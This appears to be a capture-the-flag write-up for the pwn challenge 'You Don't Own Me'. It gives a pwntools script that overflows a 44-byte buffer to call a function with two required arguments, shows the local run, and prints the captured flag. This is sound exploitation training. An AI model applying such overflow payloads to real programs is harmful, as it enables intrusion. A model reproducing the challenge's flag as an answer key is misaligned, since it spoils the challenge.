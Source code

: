 # You Don't Own Me

## Pwn

### You don't own me!  Don't try to change me in any way!


Straight up buffer overflow with the twist of needing two parameters passed into the function.

This is my script to execute the buffer overflow:

```python
# Pass in pattern_size, get back EIP/RIP offset
offset = 44

# Start program
io = start()

# Build the payload
payload = flat(
    offset * b"A",
    p32(0x080491b6),
    p32(0x080492e0),
    p32(0xdeadbeef),
    p32(0xc0defeed)
)

write('payload', payload)

# Send the payload

io.sendafter(b'name:', payload)
# Got Shell?
io.interactive()
```

Running it locally (NOTE: I needed to hit return after it went interactive):

```sh
$ python3 solver.py
[+] Starting local process './youdontownme': pid 4177748
[*] Switching to interactive mode
 $ 

I don't know you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb6\x91\x04\x08\xe0\x92\x04\x08ﾭ\xde\xed\xfe\xde\xc0. Goodbye!
Wow! You do own me!  Have a Flag
teractf{ju5t_L3t_m3_b3_my531f}

[*] Got EOF while reading in interactive
$ 
[*] Process './youdontownme' stopped with exit code -11 (SIGSEGV) (pid 4177748)
[*] Got EOF while sending in interactive
```


**teractf{ju5t_L3t_m3_b3_my531f}**


